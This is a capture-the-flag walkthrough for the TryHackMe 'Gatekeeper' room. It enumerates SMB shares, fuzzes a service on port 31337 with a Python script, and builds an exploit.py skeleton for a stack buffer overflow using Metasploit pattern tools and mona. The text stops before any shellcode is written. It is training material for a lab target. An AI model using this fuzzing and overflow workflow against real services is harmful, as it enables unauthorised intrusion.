# [Gatekeeper](https://tryhackme.com/r/room/gatekeeper)

![Gatekeeper](./images/Gatekeeper.png)

[Gatekeeper](https://tryhackme.com/r/room/gatekeeper) is listed as an medium room. Can you get past the gate and through the fire? An overview of what we’ll be using is listed here:

* Nmap

## Task 1 - Approach the Gates

Deploy the machine when you are ready to release the Gatekeeper.

**Writeups will not be accepted for this challenge**

### Answer the questions below

* No Answer Needed

	![task1-IP](./images/task1-IP.png)

### Enumeration

* Scan open port with **Nmap**
	
	```
	nmap $IP -A -p- -oN nmap-scan -Pn
	```
	
	![task1-nmap](./images/task1-nmap.png)

	You can see all result scan on this [file](./files/nmap-scan). We found SMB port open and 1 suspicious port open on **31337**

* Try to connect on port **31337**

	```
	nc $IP 31337
	```

	![task1-nc](./images/task1-nc.png)

	When we connect on this port, we try to send word "KakakSeram" and we get server response "Hello KakakSeram!!!"

* Using SMBClient to list available shares on the host

	```
	smbclient -L $IP
	```

	![task1-smbclient1](./images/task1-smbclient1.png)

	We found shared folder name **Users**

* Exploring and access to folder **Users**

	```
	smbclient \\\\$IP\\Users
	```

	![task1-smbclient2](./images/task1-smbclient2.png)

	We found file **gatekeeper.exe** on folder **$IP\Users\Share**

* Download file **gatekeeper.exe**

	```
	get gatekeeper.exe
	```

	![task1-smbclient3](./images/task1-smbclient3.png)

### Exploit the program file

* Copy file **gatekeeper.exe** to VM Windows with installed **Immunity Debugger** and **mona.py.** Run **Immunity Debbuger** and open file **gatekeeper.exe**. Press **F9** to run program on **Immunity Debugger**

	![task1-debug1](./images/task1-debug1.png)

* Set `mona` working folder

	```
	!mona config -set workingfolder D:\Project\mona\%p
	```

	![task1-folder](./images/task1-folder.png)

* Fuzzing the application with `fuzzer.py`

	```
	#!/usr/share/python

	import socket, time, sys

	ip = '10.37.1.149'		# Change to IP Host
	port = 31337			# Change to Port Host
	timeout = 5

	string = "A" * 20

	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(timeout)
		s.connect((ip, port))
		print("#### Starting Fuzzing #####")
		while True:
			print("[+] Sending " + str(len(string)) + " bytes...")
			s.send(bytes(string + '\r\n', "latin-1"))
			s.recv(1024)
			string += "A" * 20
			time.sleep(1)
	except:
		print("#### End of Fuzzing #####")
		print("Fuzzing crashed at " + str(len(string)) + " bytes")
		sys.exit(0)
		s.close()
	```

	![task1-fuzz](./images/task1-fuzz.png)

	We got program crashed at 160 bytes

* Create file `exploit.py`

	```
	import socket

	ip = "10.37.1.149"	# Change to IP target
	port = 31337		# Change to Port target

	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = ""

	buffer = overflow + retn + padding + payload

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
		print("Could not connect.")
	```

	![task1-exploit1](./images/task1-exploit1.png)

* Create pattern with adding 40 bytes from crached program (160 + 40 = 200)

	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
	```

	![task1-pattern](./image/task1-pattern.png)

* Copy our pattern to payload variable on `exploit.py`
	
	![task1-exploit2](./images/task1-exploit2.png)

* On **Immunity Debugger** press `ctrl+F2` to restart application and click `OK`. Press F2 to run application again. Run `exploit.py` script

	![task1-runexp](./images/task1-runexp.png)

	![task1-debug2](./images/task1-debug2.png)

	We got **EIP** value **39654138**

* Find offset from EIP value

	```
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
	```

	![task1-offset](./images/task1-offset.png)

	We got offset value **146**

* Now we need to generate a string of bad chars from `\x01` to `\xff` that is identical to the bytearray. Use the python script (`bytegen.py`) and run the script

	```
	for x in range(1, 256):
		print("\\x" + "{:02x}".format(x), end='')
	print()
    ```

    ![task1-byte](./images/task1-byte.png)

* Update `exploit.py` script, set the offset variable value, set the payload variable to generated string and set the retn variable to "BBBB"

	![task1-exploit3](./images/task1-exploit3.png)

* Restart **Immunity Debugger** and generate a bytearray using mona, and exclude the null byte (`\x00`)

	```
	!mona bytearray -b "\x00"
	```
	

## Task 2 - Defeat the Gatekeeper and pass through the fire

Defeat the Gatekeeper to break the chains.  But beware, fire awaits on the other side.

### Answer the questions below

* Locate and find the User Flag.

* Locate and find the Root Flag